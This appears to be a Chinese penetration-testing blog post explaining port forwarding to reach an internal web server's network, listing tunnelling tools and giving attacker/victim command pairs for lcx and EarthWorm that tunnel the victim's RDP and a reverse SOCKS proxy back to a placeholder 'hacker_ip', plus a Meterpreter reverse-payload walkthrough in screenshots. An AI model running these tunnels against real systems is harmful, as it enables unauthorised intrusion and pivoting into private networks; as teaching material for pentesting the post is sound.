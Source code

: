 +++
date = "2016-08-08T19:33:45+08:00"
description = ""
draft = false
tags = ["端口转发"]
title = "端口转发"
topics = ["Pentest"]

+++

### 0x00 应用场景
* 内网IP的80端口通过端口映射到了外网IP的80端口上
* 内网的Web服务器通过外网IP反向代理(如Nginx)
也就是说Web服务器在内网中

### 0x01 判断Web是否为内网
* 向ping域名，查看IP是外网
* 用webshell查看ip却是内网IP

### 0x02 端口转发工具
* lcx
* htran
* [EarthWorm](http://rootkiter.com/EarthWorm/)
* netsh
* reGeorg
* meterpreter porfwd

### 0x03 lcx端口转发
* Hacker：lcx.exe -listen 500 8888
* Victim：lcx.exe -slave hacker_ip 500 victim_ip 3389
* Hacker：cmd mstsc hacker_ip:500
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_hacker_run_lcx.png" alt="hacker运行lcx.png" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_vimctim_run_lcx.png" alt="vimctim端运行lcx.png" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_hacker_remote_conn.png" alt="hacker远程连接.png" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_hacker_remote_conn_success.png" alt="hacker远程连接成功.png" %}}

### 0x04 EarchWorm端口转发
* Hacker：./ew -s rcsocks -l 1080 -e 8888
* Victim：./ew -s rssocks -d hacker_ip -e 8888
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_earchworm.png" alt="earchworm原理.png" %}}
#### 1. 启动EarchWorm
{{% fluid_img src="/img/post/privilge_escalation_win_linux_run_ew.png" alt="hacker服务器启动ew.png" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_victim_run_ew.png" alt="victim启动ew.png" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_linux_get_victim_conn.png" alt="victim连接hacker服务器.png" %}}
#### 2. hacker主机使用代理
{{% fluid_img src="/img/post/privilge_escalation_win_hacker_set_proxy1.png" alt="hacker内网主机设置代理1.png" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_hacker_set_proxy2.png" alt="hacker内网主机设置代理2.png" %}}
#### 3. hacker内网主机连接目标的内网主机
{{% fluid_img src="/img/post/privilge_escalation_win_ew_hacker_remote_conn.png" alt="hacker连接内网主机.png" %}}
<br /><br />
{{% fluid_img src="/img/post/privilge_escalation_win_ew_hacker_remote_conn_success.png" alt="hacker连接内网主机成功.png" %}}

### 0x05 Meterpreter
* Hacker端生成payload
{{% fluid_img src="/img/post/privilge_escalation_win_msf_creat_payload.png" alt="msf生成win反弹型的payload.png" %}}
* msf监听端口
{{% fluid_img src="/img/post/privilge_escalation_win_set_metasploit_listen_port.png" alt="设置metasploit监听端口.png" %}}
* 目标主机运行exp
{{% fluid_img src="/img/post/privilge_escalation_win_victim_run_exp.png" alt="目标主机运行exp.png" %}}
* msf收到新会话
{{% fluid_img src="/img/post/privilge_escalation_win_msf_get_conn.png" alt="msf收到目标主机的连接.png" %}}
* msf执行命令
{{% fluid_img src="/img/post/privilge_escalation_win_msf_exec_command.png" alt="msf远程执行命令.png" %}}
